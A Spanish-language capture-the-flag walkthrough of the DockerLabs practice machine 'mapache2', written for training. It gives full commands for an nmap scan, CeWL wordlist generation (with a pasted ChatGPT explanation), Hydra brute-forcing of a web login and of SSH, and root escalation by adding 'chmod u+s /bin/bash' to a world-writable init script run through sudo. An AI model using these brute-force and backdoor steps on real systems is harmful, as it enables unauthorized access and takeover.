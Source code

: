 Maquina "mapache2" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![mapache](./img/mapache2.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Sep  2 20:00:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-09-02 20:00:23 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:9e:60:04:ea:da:48:98:7a:e3:eb:f5:8e:25:83:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPh6UqEY++e9Kf6SVPV8+FwzeSzn1Sb0a5BjOpOhmjfJq4/cPpz7ZuUzWpqkjPx71va69nLnOVJ9eLaCuIq8hi4=
|   256 64:0a:26:78:24:8e:1a:75:54:5a:58:bc:f4:18:ce:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIADa8Dt31nScLWTk1pM77PTDusyfx57GAuWtGyGFGRpA
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hackerspace - Welcome
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    We have to change this, I told Medusa to protect this more.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=9/2%Time=66D64388%P=x86_64-pc-linux-gnu%r(
SF:NULL,3C,"We\x20have\x20to\x20change\x20this,\x20I\x20told\x20Medusa\x20
SF:to\x20protect\x20this\x20more\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 20:00:34 2024 -- 1 IP address (1 host up) scanned in 11.43 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: ????`

Si nos fijamos el 3306 no parece estar corriendo mysql ni nada y mas encima dice esto:

"We have to change this, I told Medusa to protect this more."

Para confirmar si realmente dice eso podriamos conectarnos con netcat para ver si nos dice ese mensaje:

```css
nc <ip> 3306
```

y como vemos en la salida, el mensaje es correcto, por lo que tenemos un posible usuario: "medusa"

Ahora que ya obtuvimos algo de información, podemos ir a el navegador y entrar en la ip para ver que hay:

![80](./img/80.png)

Como vemos es una página que no tiene mucha importancia pero tiene un panel de login, por lo que luego de intentar varias cosas como "SQLi" y demás pero nada servia, prácticamente llegando a la locura se me ocurre ver si alguna palabra de la página de inicio es la contraseña, por lo que le pregunto a chatGPT y me dice esto:

~~~css
Para extraer todas las palabras de una página web y guardarlas en un diccionario, puedes utilizar **CeWL** (Custom Word List Generator). Esta herramienta está disponible tanto en Kali Linux como en Parrot Security OS y se utiliza para generar listas de palabras personalizadas a partir del contenido de sitios web, lo cual es muy útil para ataques de fuerza bruta o ataques de diccionario.

### Uso de CeWL

1. **Instalar CeWL** (si no está instalado por defecto):
   ```bash
   sudo apt-get install cewl
   ```

2. **Ejecutar CeWL** para extraer palabras de una página web:
   ```bash
   cewl -w diccionario.txt http://example.com
   ```

   - `-w diccionario.txt` especifica el archivo donde se guardarán las palabras extraídas.
   - `http://example.com` es la URL de la página web de la cual quieres extraer las palabras.

3. **Opciones adicionales** de CeWL:
   - `-d [depth]` para especificar la profundidad de búsqueda.
   - `-m [min_length]` para establecer la longitud mínima de las palabras.
   - `-o` para incluir los metadatos de la página.

### Ejemplo de uso avanzado
Extraer palabras con una longitud mínima de 5 caracteres, a una profundidad de 2 niveles, y guardarlas en un archivo llamado `mi_diccionario.txt`:
```bash
cewl -d 2 -m 5 -w mi_diccionario.txt http://example.com
```

Esta herramienta es muy flexible y puedes ajustar las opciones según tus necesidades específicas para generar un diccionario adecuado para tus propósitos.
~~~

ahora intentamos usar ese "cewl" y guardarnos las cosas:

```css
cewl http://<ip> > pass
```

una vez hecho eso ejecutamos hydra usando el usuario "medusa" y el diccionario:

```css
hydra -l medusa -P pass <ip> http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```

![hydra](./img/hydra.png)

Como vemos ya tenemos la contraseña. (demasiado rebuscado)

Una vez iniciada la sesión veremos otra página inutil, pero al ver el codigo fuente se ve este mensaje:

```css
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

parece que hay otro usuario llamado "kinder"

Ahora otra vez descendiendo a la locura, pruebo con el diccionario de antes:

```css
hydra -l kinder -P pass ssh://172.17.0.2
```

y como tampoco funciona, pruebo ya por probar lo que sea usar de contraseña "medusa" y finalmente gano acceso con las credenciales:

#### Kinder:medusa

(y mas encima con la k en mayúsculas).

# INTRUSION

```css
ssh Kinder@<ip>
```

con contraseña "medusa".

# ESCALADA DE PRIVILEGIOS

Si ejecutamos un `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for Kinder on 50b2ab6877b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on 50b2ab6877b6:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

podemos ver el servicio de apache2 en `/etc/init.d/apache2` y ver si oculta algo. Ahora si hacemos un `ls -la` en ese archivo veremos esto:

```css
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 /etc/init.d/apache2
```

como lo podemos modificar simplemente con nano lo modificamos y la primeras 2 líneas nos deben quedar así:

```css
#!/bin/bash
chmod u+s /bin/bash
```

en resumen: Cambiamos "#!/bin/sh" por "#!/bin/bash" y agregamos un chmod debajo para darle permisos SUID a bash.

Ahora ejecutamos `sudo service apache2 restart` y listo, solo nos queda ejecutar `bash -p` y ya seremos root.

![root](./img/root.png)

Gracias por leer.